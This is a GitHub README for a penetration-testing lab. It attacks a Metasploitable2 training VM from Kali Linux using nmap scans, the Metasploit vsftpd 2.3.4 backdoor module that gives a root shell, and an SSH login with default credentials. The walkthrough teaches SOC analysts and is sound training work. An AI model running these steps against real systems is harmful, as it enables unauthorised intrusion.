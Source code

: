 # kali-metasploitable-lab
Penetration testing sim using Kali Linux and Metasploitable2

# Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## Lab Setup

| Component      | Details                        |
|----------------|--------------------------------|
| Attacker       | Kali Linux (UTM VM)            |
| Target         | Metasploitable2 (UTM VM)       |
| Network        | Shared NAT / Bridged           |
| Connectivity   | Confirmed via ping             |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

#### Basic Nmap Scan
```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
Summary of Open Ports:
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
Summary: 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### Exploit: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

Result: 
* Successful shell access as root
* Verified with ```whoami```

---
### SSH Exploit: 

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client

**Login Attempt:**
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

Result: 
* Successful login using default credentials:
  * Username: msfadmin
  * Password: msfadmin
* Access confirmed with:
  ```whoami```

####Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```
**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

Lessons Learned:
Modern SSH clients disable insecure key types by default. In these lab scenarios with outdated systems compatibility flags may be required to access vulnerable targets. SOC teams should monitor for these depreciated cryptographic negotiations as potential attack indicators. 
